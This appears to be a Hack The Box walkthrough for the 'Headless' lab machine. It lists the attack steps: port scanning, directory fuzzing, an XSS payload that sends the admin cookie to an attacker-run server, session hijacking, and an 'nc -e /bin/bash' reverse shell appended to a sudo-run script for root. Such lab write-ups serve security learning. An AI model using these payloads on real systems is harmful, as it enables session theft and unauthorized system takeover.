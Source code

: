 # HTB Machine Walkthrough: HeadLess
> [!IMPORTANT]  
> **Please use this as a hint or guide if you're blocked at some point of this machine, i make those files for myself and to help some friends that are also doing those machines.**


> [!NOTE]  
> **Try to get as far as you can by yourself or you will never learn to make machines alone. Hope you the best and happy hacking <3.**

# Task List

## Task 1: Highest TCP port available
- From next command: `nmap -sC -sV --min-rate 100 -vvv [IP]`

**Result:**
- Scanning 10.10.11.8 [1000 ports]
- Discovered open port 22/tcp on 10.10.11.8
- Discovered open port 5000/tcp on 10.10.11.8

## Task 2: Title of the page if the site detects an attack in the contact support form

- Log in to the web page at `IP:5000`
- Execute `<script>alert("TestMessage")</script>`

**Result:** Hacking Attempt Detected  
_Client Request Information_

## Task 3: Name of the cookie set for a logged-in user

- From the "Client Request Information," get the "Cookie" parameter

**Result:** is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

## Task 4: Relative URL of the page requiring authorization on Headless

- Command using FFUF: `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://IP:5000/FUZZ`
- Explanation: `ffuf (wordlist parameter) (wordlist path) (objective parameter) (objective url)`

**Result:** 
- 10.10.11.8:5000/support
- 10.10.11.8:5000/dashboard *Response*

## EXTRA: Access to the dashboard

- Start an HTTP server with Python on port 8001: `python3 http.server 8001`
- Send a request to the /support directory with Burp Suite
- Change any label content with the XSS exploit: `<script>var i=new Image(); i.src="http://xx.xx.xx.xx:8001/?cookie="+btoa(document.cookie);</script>`, replacing `XX` with your IP.
- Use the Proxy and Repeater in Burp Suite to send multiple modified requests
- Check the server for cached data

**Result:**  
xx.xx.xx.xx - - [29/Jul/2024 14:00:56] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

**Action:** Decrypt the cookie (Base64):  
`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

**Result:** is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0% 

**Action 2:** Use the decrypted cookie to access the `/dashboard`

**Result:** Access Guaranteed

## Task 5: Parameter name on POST requests to /dashboard with a vulnerability

- Identify the form type

**Result:** Date

## Task 6: Name of the user the web application is running as

- Gain access to the machine
- Hint: Use a reverse shell and `nc` with the admin cookie

**Result:**  
Access to the machine  
User: dvir  
Use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a shell

## Task 7: Submit USER flag

- Use `ls -la` to list files in the home directory and find `user.txt`
- Use `cat user.txt`

**Result:** Submission of the USER flag

## Task 8: Full path to the script `dvir` can run without a password

- Use the command: `sudo -l`

**Result:** `/usr/sh/syscheck`

## Task 9: Script called with a relative path by `syscheck`

- Inspect the `syscheck.sh` script

**Result:** `initdb.sh`

## Task 10: Submit the flag in the root user's home directory

- Modify `initdb.sh` to append: `nc -e /bin/bash xx.xx.xx.xx PORT`
- Open a new terminal and use `nc -lvp PORT`
- Execute the script

**Result:** Access to a shell as the root user  
Navigate to the root directory and use `cat root.txt`
